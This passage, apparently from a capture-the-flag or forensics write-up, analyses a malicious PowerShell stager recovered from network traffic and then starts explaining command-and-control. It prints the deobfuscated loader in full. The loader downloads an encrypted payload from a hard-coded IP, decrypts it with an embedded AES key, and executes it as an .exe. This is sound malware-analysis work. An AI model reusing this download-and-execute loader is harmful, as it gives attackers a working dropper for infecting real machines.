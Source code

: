 With some work to get a more human readable script it becomes:
```bash
Set-iTem vAriAble:qLz0so [tYpe] -F SySTEM.io.FilEmode &set-VariABLE l60Yu3 [Type] sYStem.SeCuRiTY.crypTOgRAphY.aeS Set-VARiaBle BI34 sySTEm.secURITY.CrYpTogrAPHY.CrypTOSTReAmmoDE
$URL = "http://64.226.84.200/94974f08-5853-41ab-938a-ae1bd86d8e51" $PTF = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
Import-Module BitsTransfer 
Start-BitsTransfer -Source http://64.226.84.200/94974f08-5853-41ab-938a-ae1bd86d8e51 -Destination "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
New-Object IO.FileStream $PTF 
chilD-IteM VAriablE:QLz0sO.Value::Open
New-Object System.IO.MemoryStream
$AES = GI VARiaBLe:l60Yu3 Create.Invoke()
$AES.KEYSize = 128
$KEY = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0) #### fiAAEBAAABAQAAAQEAAQEAAA==
$iv = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)  #### AAEBAAAAAAEAAQEAAAEBAQ==
$AES."K`EY" = ${K`EY}
$AES."i`V" = ${i`V}
$CS = New-Object System.Security.Cryptography.CryptoStream $MS, $AES.CreateDecryptor.Invoke() GeT-VARIaBLE bI34::Write
CopyTo.Invoke($CS)
$DCED=$MS.ToArray.Invoke()
$CS=Write.Invoke($DCED, 0, DCED.Length)
$DCED | Set-Content -Path "$env:temp\tmp7102591.exe" - Encoding Byte
& "$env:temp\tmp7102591.exe"
```

Break it down very fast:
+ A CryptoStream object is created. This object involves AES-CBC to encrypt and decrypt the file content. KEY and IV are provided in the file and i put their base64 in comments
+ BitsTransfer is used to download a file '94974f08-5853-41ab-938a-ae1bd86d8e51' from 64.226.84.200
+ The downloaded content is decrypted and saved as tmp7102591.exe

We know the next step: find and decrypt this file from the conversation. This is fairly easy as we know the URL and the protocol - is packet 44.

A little jump forward as AES decryption will be present multiple times in this writeup: we have the decrypted exe file. 
The exe file is not obfuscated and can be decompiled by different tools such as ILSpy or JetBrains dotPeek, i used dotPeek. It's time  to decompile and read it.

But before that some words must be spent to understand what a C2 is.

---

Command and Control (C2) and from NIST definition:

_'Command and Control' is the exercise of authority and direction by a properly designated commander over assigned and attached forces in the 
accomplishment of the mission. Command and control functions are performed through an arrangement of personnel, equipment, communications, facilities, 
and procedures employed by a commander in planning, directing, coordinating, and controlling forces and operations in the accomplishment of the mission._

---
